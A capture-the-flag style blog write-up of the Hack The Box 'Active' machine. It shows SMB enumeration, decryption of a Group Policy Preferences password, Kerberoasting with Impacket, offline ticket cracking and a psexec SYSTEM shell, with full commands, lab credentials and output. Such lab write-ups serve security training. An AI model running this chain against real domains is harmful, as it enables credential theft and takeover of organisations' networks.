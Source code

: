```yaml
---
layout: post
title:  "HTB: Active"
date:   2024-03-24 09:19:20 +0700
tags: [htb,pentesting,ctf]
categories: jekyll update
usemathjax: true
---
```


> ## **Overview**

Active was an example of an easy box that still provided a lot of opportunity to learn. The box was centered around common vulnerabilities associated with Active Directory. There’s a good chance to practice SMB enumeration. It also gives the opportunity to use Kerberoasting against a Windows Domain, which, if you’re not a pentester, you may not have had the chance to do before.

> ## **Enumeration**

### **Port Scan Results**

| IP Address | Ports Open |
| --- | --- |
| 10.10.10.100 | TCP: 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5722, 9389
|              | UDP: 123, 137 

### **SMB Enumeration - I**

Since this is a Windows host, Enumerating any readable shares can be really useful.

```bash
smbmap -H 10.10.10.100
```

[![image.png](https://i.postimg.cc/SNbzxzty/image.png)](https://postimg.cc/5jptPjVG)

And we see that we can only access the share *Replication.*

Connecting to the share using **smbclient**

```bash
smbclient //10.10.10.100/Replication
```

[![image.png](https://i.postimg.cc/LXrgfq93/image.png)](https://postimg.cc/sQ42CgZM)

Once we gain access to the share, we can locate a file named Groups.xml within the directory path 

```
**\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\**
```

Upon examining this file, we will discover both a username and an encrypted password.

[![image.png](https://i.postimg.cc/9Q3p9DRF/image.png)](https://postimg.cc/crmwy4BV)

```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

### **GPP Passwords**

Whenever a new Group Policy Preference (GPP) is created, there’s an 
xml file created in the SYSVOL share with that config data, including 
any passwords associated with the GPP. For security, Microsoft AES 
encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!

Microsoft issued a patch in 2014 that prevented admins from putting 
passwords into GPP. For more 
details, check out this [AD Security post](https://adsecurity.org/?p=2288).

**Decrypting GPP** 

a tool called "gpp-decrypt" that can be utilized for decrypting GPP (Group Policy Preferences) passwords.

[![image.png](https://i.postimg.cc/HnsNfV4C/image.png)](https://postimg.cc/1n2MFRjW)

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

And we got the password **GPPstillStandingStrong2k18**.

### **SMB Enumeration - II**

With a username and password, I can access 3 more shares

There is a Users share that looks interesting

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY
        Users                                                   READ ON
```

Connecting to the SMB share using **smbclient**

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

And that is enough to get user.txt

> ## Initial Access – Kerberoasting

**Vulnerability Explanation:** Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password.

**Vulnerability Fix:** [Consider using Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) rather than service accounts with static passwords . [Consider upgrading to an Active Directory Domain or forest level](https://adsecurity.org/?p=3377) which supports advanced Kerberos armoring. More information [here](https://www.lepide.com/blog/how-to-prevent-kerberoasting-attacks/)

**Severity: [High](https://capec.mitre.org/data/definitions/509.html)**

**Steps to reproduce the attack:** Since we already possess credentials, we'll use the "GetUserSPNs.py" script from Impacket. This script will enable us to retrieve a list of service usernames linked to regular user accounts and obtain a ticket that I can attempt to crack.

**Proof of Concept**


```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

It also gives me the ticket, which I can try to brute force decrypt to get the user’s password:

**Cracking the ticket**

With John

```bash
./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

If youre facing errors, make sure you use the [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).

With Hashcat

```bash
$ hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

And we got the administrator password : **Ticketmaster1968**

> ##  Administrator Access

As we already have admin creds through kerberoasting, we can get the system shell using psexec.py

```powershell
psexec.py active.htb/administrator@10.10.10.100
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file dMCaaHzA.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service aYMa on 10.10.10.100.....
[*] Starting service aYMa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).